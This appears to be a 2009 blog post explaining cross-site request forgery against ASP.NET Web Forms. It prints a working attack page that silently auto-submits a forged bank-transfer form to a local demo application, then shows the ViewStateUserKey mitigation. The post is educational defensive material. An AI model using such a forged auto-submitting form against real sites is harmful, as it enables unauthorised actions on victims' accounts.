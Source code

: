 ```yaml
---
layout: post
title: CSRF Attacks and Web Forms
date: 2009-04-02 -0800
comments: true
disqus_identifier: 18606
categories:
- asp.net
redirect_from: "/archive/2009/04/01/csrf-webforms.aspx/"
---
```


In [my last blog
post](https://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx "Anatomy of a CSRF attack"),
I walked step by step through a [Cross-site request
forgery](http://en.wikipedia.org/wiki/CSRF "CSRF on Wikipedia") (CSRF)
attack against an ASP.NET MVC web application. This attack is the result
of how browsers handle cookies and cross domain form posts and is not
specific to any one web platform. Many web platforms thus include their
own mitigations to the problem.

It might seem that if you’re using Web Forms, you’re automatically safe
from this attack. While Web Forms has many mitigations turned on by
default, it turns out that it does not automatically protect your site
against this specific form of attack.

In the same [sample bank transfer
application](http://code.haacked.com/mvc-2/CsrfDemo.zip "Bank Transfer CSRF Demo")
I provided in the last post, I also included an example written using
Web Forms which demonstrates the CSRF attack. After you log in to the
site, you can navigate to `/BankWebForm/default.aspx` to try out the Web
Form version of the transfer money page. it works just like the MVC
version.

To simulate the attack, make sure you are running the sample application
locally and make sure you are logged in and then click on
[https://haacked.com/demos/csrf-webform.html](http://demo.haacked.com/security/csrf-webform.html "CSRF for Web Form Demo").

Here’s the code for that page:

```csharp
<html xmlns="http://www.w3.org/1999/xhtml" >
<head>
    <title></title>
</head>
<body>
  <form name="badform" method="post"
    action="http://localhost:54607/BankWebForm/Default.aspx">
    <input type="hidden" name="ctl00$MainContent$amountTextBox"
      value="1000" />
    <input type="hidden" name="ctl00$MainContent$destinationAccountDropDown"
      value="2" />
    <input type="hidden" name="ctl00$MainContent$submitButton"
      value="Transfer" />
    <input type="hidden" name="__EVENTTARGET" id="__EVENTTARGET"
      value="" />
    <input type="hidden" name="__EVENTARGUMENT" id="__EVENTARGUMENT"
      value="" />
    <input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE"
      value="/wEP...0ws8kIw=" />
    <input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION"
      value="/wEWBwK...+FaB85Nc" />
    </form>
    <script type="text/javascript">
        document.badform.submit();
    </script>
</body>
</html>
```

It’s a bit more involved, but it does the trick. It mocks up all the
proper hidden fields required to execute a bank transfer on my silly
demo site.

The mitigation for this attack is pretty simple and described thoroughly
in this [this article by Dino
Esposito](http://msdn.microsoft.com/en-us/library/ms972969.aspx "Take Advantage of ASP.NET Built-in Features to Fend Off Web Attacks")
as well as this [post by Scott
Hanselman](http://www.hanselman.com/blog/ViewStateUserKeyMakesViewStateMoreTamperresistant.aspx%20 "ViewState").
The change I made to my code behind based on Dino’s recommendation is
the following:

```csharp
protected override void OnInit(EventArgs e) {
  ViewStateUserKey = Session.SessionID;
  base.OnInit(e);
}
```

With this change in place, the CSRF attack I put in place no longer
works.

When you go to a real bank site, you’ll learn they have all sorts of
protections in place above and beyond what I described here. Hopefully
this post and the previous one provided some insight into why they do
all the things they do. :)

Technorati Tags:
[asp.net](http://technorati.com/tags/asp.net),[security](http://technorati.com/tags/security)

